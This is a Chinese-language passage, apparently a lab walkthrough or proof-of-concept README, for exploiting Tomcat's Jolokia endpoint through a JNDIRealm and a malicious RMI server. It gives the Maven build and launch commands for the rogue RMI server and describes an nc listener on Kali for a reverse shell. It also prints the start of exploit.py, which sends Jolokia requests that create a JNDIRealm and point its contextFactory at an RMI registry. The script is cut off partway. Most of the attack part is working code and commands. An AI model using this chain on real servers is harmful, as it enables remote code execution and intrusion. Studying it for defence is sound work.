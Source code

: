 
使用maven对java代码进行编译打包

```
命令:mvn clean install
```

打包成功

![](media/d4957a0c50e626f62d06f5fc2853ddbb.png)



使用打包好的jar包-RMIServer-0.1.0.jar指定开启服务的ip地址，运行RMI服务

```
java -Djava.rmi.server.hostname=192.168.233.249 -jar RMIServer-0.1.0.jar
```

![](media/22d452ce68c413decf2ec38b91407be8.png)



在kali上使用nc监听1234端口

![](media/6c60a7d0bba412dd195a483ca8f132df.png)



使用exploit.py脚本对目标进行重放

代码如下:

```python
import requests as req
import sys
from pprint import pprint

url = sys.argv[1] + "/jolokia/"
pprint(url)
#创建JNDIRealm
create_JNDIrealm = {
    "mbean": "Tomcat:type=MBeanFactory",
    "type": "EXEC",
    "operation": "createJNDIRealm",
    "arguments": ["Tomcat:type=Engine"]
}
#写入contextFactory
set_contextFactory = {
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "WRITE",
    "attribute": "contextFactory",
    "value": "com.sun.jndi.rmi.registry.RegistryContextFactory"
}
```